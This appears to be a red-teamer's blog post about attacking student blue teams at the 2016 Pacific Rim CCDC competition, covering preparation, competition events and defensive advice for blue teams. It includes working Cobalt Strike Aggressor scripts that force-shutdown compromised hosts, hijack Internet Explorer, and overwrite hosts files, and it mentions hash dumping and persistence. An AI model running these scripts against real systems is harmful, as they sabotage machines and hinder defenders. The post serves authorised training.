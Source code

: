 ```yaml
---
layout: post
title: Red Teaming for Pacific Rim CCDC 2016
summary: Preparation, Automation, Aggressor Scripts, and thoughts about 2016's Pacific Rim CCDC. 
tags:
- ccdc
- cobalt strike
- aggressor
---
```


Six weeks ago I had the opportunity to Red Team for [Pacific Rim CCDC](https://www.prccdc.org/). I love doing this competition because it gives me a chance to do things one would never be allowed to do on a real network and it forces me think about a different set of problems than a pentest or red team engagement. In this post I will discuss my thoughts and experiences before, during, and after this year's competition. 

# Preparation

[Last year]({{site.baseurl}}/2015-04-15-how-i-prepared-to-red-team-at-prccdc-2015/) I made a few goals for myself, mostly centered around preparation. About a month before the competition some friends and I collaborated to prepare for the competition.

## Operations Plan
The first piece of preparation is making an Operations Plan. The Ops Plan is a runbook of sorts containing all of the functionality we want to be able to execute during the competition. For each action or attack we listed out copy/paste commands, workflows, and/or tool modules. The goal is to minimize the amount of searching required during the competition. 

I've uploaded a sample from our Ops Plan to GitHub [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/OpsPlan2016.txt). Shoutout to [@sw4mp_f0x](https://twitter.com/sw4mp_f0x), [@beyondnegative](https://twitter.com/beyondnegative), [@ahayden](https://twitter.com/ahayden), and [@primarytyler](https://twitter.com/primarytyler) for working on prep with me.


## Automation
Once we had a foundational Ops Plan in place, the next step was to automate as many of the functions as possible. The competition is frenetic from start to finish, so the ability to execute attacks quickly is critical. The primary attack platform I planned on using was [Cobalt Strike](https://www.cobaltstrike.com/), with [Powershell Empire](http://www.powershellempire.com/) as a secondary platform. 

Cobalt Strike offers an extremely powerful built-in scripting language: [Aggressor](https://www.cobaltstrike.com/help-scripting). Versions of Cobalt Strike prior to 3.0 used [Cortana](http://www.advancedpentest.com/help-scripting-cortana) script, which is incompatible with Aggressor. This was my first foray into using Aggressor script and I am very happy that I dove in. Aggressor scripts provide the ability to extend Cobalt Strike's functionality and GUI with built-in commands as well as using the [Sleep](http://sleep.dashnine.org/manual/) language directly. Since Sleep allows Java objects to be incorporated into scripts, the usage options are nearly limitless.

### Shutdown
After reading Raphael Mudge's resources on Aggressor and Sleep (linked below), I started easy with a CCDC equivalent of *Hello World*: shutting down all selected boxes. 

```perl
popup beacon_bottom {
	menu "Lulz" {
		item "Shutdown Host" {
			prompt_confirm("Are you SURE you want to bounce the box(es)?", "Confirm", lambda({
				blog(@ids,"shutting down");
				bshell(@ids, "shutdown /s /f /t 00 -d up:125:1");
			}, @ids => $1));
		}
	}
}
```
Lines 1-3 configure the GUI, placing the context menu (right click) item *Shutdown Host* under a parent menu of *Lulz*. Lines 4-7 prompt the user for confirmation to shut down all hosts. If the user selects OK, all hosts are issued the shell command `shutdown /s /f /t 00 -d up:125:1`.

### Internet Explorer Popup
Last year we launched Internet Explorer in kiosk mode to Justin Bieber's homepage to spread some Bieber Fever to the Blue Teams. For this year, I wanted to automate this and be able to quickly change the URL Internet Explorer opens.

```perl
item "IE Kiosk Popup" {
		prompt_text("What site do you want to pop up?", "https://google.com", lambda({
			binput(@ids,"C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
			bshell(@ids, "C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
		}, @ids => $1));
}
```
To include this within the *Lulz* context menu parent, simply insert this code before the closing menu curly bracket, like this:

```perl
popup beacon_bottom {
	menu "Lulz" {		
		item "IE Kiosk Popup" { 
			CODE GOES HERE
		}
		item "Shutdown Host" { 
			CODE GOES HERE
		}
	}
}
```

### Host File Stomp
Blue Teams and Red Teams alike use the internet during the competition, researching how to remediate vulnerabilities, looking up that default credential for the router, the list goes on. The difference is that ideally the Blue Team's hosts are owned in multiple ways, so why not use that to our advantage to slow the research efforts? This script stomps the target(s) host file with a selected file and clears the DNS cache.

```perl
		item "Replace Host File" {
			prompt_file_open("Choose a file to replace the current host file:", "hosts.txt", false, lambda({
				bcd(@ids,"c:\\windows\\system32\\drivers\\etc");
				brm(@ids,"hosts");
				blog(@ids,"Uploading file $1 to c:\\windows\\system32\\drivers\\etc\\hosts");
				bupload(@ids,$1);
				bshell(@ids, "ipconfig /flushdns");
				blog(@ids,"File uploaded and DNS flushed. Done!");
			}, @ids => $1));
		}
```

Line 2 prompts the user for a file. Once selected, the file is assigned the `$1` variable and the lambda function is evaluated. The lambda function is used to evaluate the lines within the parenthesis inline, lines 4 - 9 in this case. Those lines handle the removal of the current host file, upload of the selected file, and flushing of the hosts' DNS. 

### Script Files

I've uploaded these and a couple other scripts to my GitHub repo for [Aggressor scripts](https://github.com/bluscreenofjeff/AggressorScripts). These examples hopefully provide enough info to get your mind turning about other devious things you can cook up before next year's competition.

Having the ability to write Aggressor scripts to automate specific Red Team functions during the competition can be a real lifesaver. 

### Aggressor Script Resources:

* [Aggressor Script Intro](https://www.cobaltstrike.com/help-scripting)
* [Aggressor Script Documentation](https://www.cobaltstrike.com/aggressor-script/index.html)
* [My Cobalt Strike Scripts from NECCDC -- Raphael Mudge](http://blog.cobaltstrike.com/2016/03/16/my-cobalt-strike-scripts-from-neccdc/)
* [Cobalt Strike 3.1 - Scripting Beacons -- Raphael Mudge](http://blog.cobaltstrike.com/2015/12/02/cobalt-strike-3-1-scripting-beacons/)
* [Real-Time Feed of Red Team Activity -- Raphael Mudge](http://blog.cobaltstrike.com/2016/01/13/real-time-feed-of-red-team-activity/)
* [Sleep Manual](http://sleep.dashnine.org/manual/)


# The Competition

This year my friend [@sw4mp_f0x](https://twitter.com/sw4mp_f0x) and I were on the Windows Meta Team together, which means we attacked every team's Windows boxes in effort to spread equal *love* to everyone. We both have competed together before, but not against every team; it was an exciting challenge. 

As soon as the competition started there was a mad dash for all teams to find initial access points. To do this we made up IP lists with all hosts for all teams and configured different initial access scripts (such as in Metasploit) to be ready for when new credentials were received. Nothing beats seeing those first few Beacons come rolling in at the start of the day. Once access started getting established it was critical to drop persistence as quickly as possible on as many hosts as possible. We used primarily scripted Aggressor to drop persistence. We came prepared with a few of these scripts but ended up making a few new ones on the fly and at the hotel at night.

With a baseline established, the name of the game was credential management. We needed to keep the credentials fresh and ready to go. With 12 teams and dozens of users per domain, this was not an easy task. In an environment like this (see: not trying to be quiet at all), I like to err on the side of dumping credentials and hashes now just in case I need them later. So once I compromised a domain controller a hashdump wasn't too far behind. You can imagine how Cobalt Strike's credential store looked. While this didn't pose an issue for some hosts, there were hosts present on all teams that shared IP addresses. This meant that any given credential on one of those hosts could belong to one or 12 different teams. Not ideal. 

Overall being on the Windows Meta Team was a challenge and a blast. I came away from the competition having learned some new tricks (like running *explorer.exe* on a sticky keys cmd prompt to use the GUI) and more ideas for both next year's competition and real life tests.

# After the Ruckus

The Blue Team debrief is particularly fun. Throughout the competition I find myself wondering what the Blue Team thinks of a particular attack or annoyance. Wondering if the defenders even know which systems we've compromised. The debrief is the time to answer a lot of those questions. I was able to speak with a few teams during the debrief, which was great.

Here are some of the key points and suggestions I made to Blue Teams:

* Become familiar with Red Team tactics. Knowing the pathways an attacker may try to get into your network will help you block those paths.
* Automate as much as you can. If the Red Team has a script to break something, have a script to fix it. Make sure you follow the rules about not using private scripts.
* Change passwords FREQUENTLY. There were accounts whose credentials didn't change once throughout the competition.
* Disable any account that's not needed or off-limits. If you aren't using built-in accounts, disable them all.
* Remove admin rights from any user or group that doesn't explicitly require that access. Given the size of the Blue Team's network, it may make sense to remove/disable Domain Admin rights entirely on the domain and explicitly assign rights on a per-host basis. For example, perhaps the Blue Team decides to disable all administrative groups in the domain and rely on local accounts with rotating unique passwords per-host. 
* Audit admin rights, account statuses, and new accounts (local and domain) throughout the competition.

# Closing Thoughts

The CCDC competition is a lot of fun. It's thrilling to be able to try attacks or annoy users in ways that are not fit for a production network. Doing that exercises a different part of your brain and hopefully conjure up some ideas that are suitable for real world testing. I can't wait for next year.

